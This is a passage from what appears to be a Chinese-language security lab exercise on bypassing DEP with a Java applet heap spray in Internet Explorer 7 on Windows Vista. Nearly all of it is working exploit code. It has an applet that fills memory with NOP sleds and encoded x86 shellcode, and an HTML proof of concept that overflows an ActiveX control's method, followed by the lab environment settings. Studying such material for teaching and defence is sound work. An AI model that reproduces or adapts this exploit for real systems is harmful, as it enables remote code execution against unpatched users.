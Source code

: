 #### 4.1 实验代码

AppletSpray.java
<pre><code>
import java.applet.*;
import java.awt.*;

public class AppletSpray extends Applet{
    public void init(){
        String shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";
        String[] mem = new String[1024];
        StringBuffer buffer = new StringBuffer(0x100000/2);
        // header (12 bytes)  nop (0x10000-32-2-x) shellcode(x)  NULL(2)
        for(int i=0;i<(0x100000-12-2)/2-shellcode.length();i++)
            buffer.append("\u9090");
        buffer.append(shellcode);
        Runtime.getRuntime().gc();
        for(int j=0;j<90;j++)
            mem[j] += buffer.toString();
    }
}
</code></pre>

POC.html
<pre><code>&lt;html&gt;
&lt;body&gt;
&lt;applet code=AppletSpray.class width=300 height=50&gt;&lt;/applet&gt;
&lt;object classid="clsid:2554812E-4AE1-4FB0-8F6B-9C5E824D1B2D" id="test"&gt;&lt;/object&gt;
&lt;script&gt;
var s = "\u9090";
while(s.length &lt; 54){
    s += "\u9090";
}
s += "\u0A0A\u110A";
test.test(s);
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</code></pre>

#### 4.2 实验内容

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows Vista SP0||
|DEP状态|Optin|该选项任意，因为这种方法可以绕过DEP|
|浏览器|IE7||
|Java JDK|1.4.2|1.5以前的均可|
|目标版本|1.1|脱离JRE，在不具有JRE机器上也能执行|
|JRE|不使用JRE||
|Applet编译指令|javac 路径\Shellcode.java -target 1.1|

